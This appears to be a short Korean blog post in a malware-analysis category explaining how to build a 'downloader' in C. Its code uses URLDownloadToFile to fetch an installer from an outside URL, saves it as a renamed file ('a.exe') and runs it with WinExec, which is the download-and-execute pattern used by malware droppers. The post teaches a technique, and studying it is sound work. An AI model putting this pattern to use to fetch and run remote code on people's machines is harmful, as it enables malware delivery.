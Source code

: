```yaml
---
title: C로 Downloader 만들기
categories: 
 - Malware Analysis
tags:
 - Downloader
---
```


## Downloader

Downloader는 프로그램을 자동으로 다운로드 받게 할 수 있는 프로그램이다.

### 주요 API

- URLDownloadToFile : 인터넷에서 바이너리 형태로  다운로드하여 파일에 저장
- WinExec : 지정한 응용 프로그램을 실행

### 소스 코드

```c
#include <windows.h>

#pragma comment(lib,"urlmon.lib")

int main()
{
    LoadLibrary(L"urlmon.dll");
    HRESULT hResult = URLDownloadToFile(
                            0,
                            L"http://app.pc.kakao.com/talk/win32/KakaoTalk_Setup.exe",
                            L"c:\\Program Files\\a.exe",0,0); // 바이너리 형태로 다운로드
    WinExec("c:\\Program Files\\a.exe",SW_SHOW);  //프로그램 실행
    return 0;
}

```


